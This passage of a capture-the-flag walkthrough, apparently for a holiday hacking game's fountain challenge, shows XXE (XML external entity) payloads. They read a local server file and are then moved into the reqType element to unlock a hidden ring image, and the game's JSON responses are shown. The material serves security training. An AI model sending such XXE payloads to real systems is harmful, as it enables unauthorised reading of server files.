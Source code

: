 ```
    },
    "referrer": "https://glamtarielsfountain.com/",
    "method": "GET",
    "mode": "cors"
});
```
![](../images/web_ring/redring-supersupersecret928164.png)

On closer inspection we find that the writing on the ring says `goldring_to_be_deleted.txt`. Let's issue a request for this file.

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ELEMENT foo ANY > 
<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt"> ]>
<root>
 <imgDrop>&xxe;</imgDrop>
 <who>princess</who>
 <reqType>xml</reqType>
</root>
```

```
{
  "appResp": "Hmmm, and I thought you wanted me to take a look at that pretty silver ring, but instead, you've made a pretty bold REQuest. That's ok, but even if I knew anything about such things, I'd only use a secret TYPE of tongue to discuss them.^She's definitely hiding something.",
  "droppedOn": "none",
  "visit": "none"
}
```
based on the REQYPE hint above, let's change the postion of the XXE to the reqtype element. Also let's drop the silver ring (img1).

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ELEMENT foo ANY > 
<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt"> ]>
<root>
 <imgDrop>img1</imgDrop>
 <who>princess</who>
 <reqType>&xxe;</reqType>
</root>
```

```
{
  "appResp": "No, really I couldn't. Really? I can have the beautiful silver ring? I shouldn't, but if you insist, I accept! In return, behold, one of Kringle's golden rings! Grinchum dropped this one nearby. Makes one wonder how 'precious' it really was to him. Though I haven't touched it myself, I've been keeping it safe until someone trustworthy such as yourself came along. Congratulations!^Wow, I have never seen that before! She must really trust you!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png,200px,290px"
}

Issue a request to the URL in the visit parameter of the response to get the ring!

```